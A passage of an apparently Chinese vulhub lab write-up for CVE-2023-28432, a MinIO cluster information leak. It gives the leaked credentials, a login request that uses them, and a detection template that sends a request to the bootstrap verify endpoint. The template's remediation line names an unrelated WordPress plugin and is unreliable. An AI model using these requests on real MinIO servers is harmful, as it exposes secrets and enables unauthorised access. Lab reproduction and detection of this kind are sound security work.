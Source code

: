 可见，其中包含`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。使用这个账号密码，即可成功登录管理后台：

```
minioadmin:minioadmin-vulhub
```

登录：

```http
POST /api/v1/login HTTP/1.1
Host: 192.168.10.5:9001
Content-Length: 58
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.10.5:9001
Referer: http://192.168.10.5:9001/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"accessKey":"minioadmin","secretKey":"minioadmin-vulhub"
```



查看对应 minio_cve_2023_28432.yaml：

```yaml
id: CVE-2023-28432

info:
  name: MinIO集群模式信息泄露漏洞
  author: xiaodisec
  severity: high
  description: |
    MinIO集群模式信息泄露漏洞
  remediation: |
    Update to WordPress Accessibility Helper version 0.6.0.7 or later to mitigate this vulnerability.
  reference:
    - https://github.com/vulhub/vulhub/blob/master/minio/CVE-2023-28432/README.zh-cn.md
  tags: cve,mimio,cve2023

http:
  - raw:
      - |
        POST /minio/bootstrap/v1/verify HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate
        Accept: */*
        Accept-Language: en-US;q=0.9,en;q=0.8
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
        Connection: close
        Cache-Control: max-age=0
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 0

        

    matchers-condition: or
    matchers:
      - type: word
        part: body
        words:
          - 'MINIO_SECRET_KEY'
```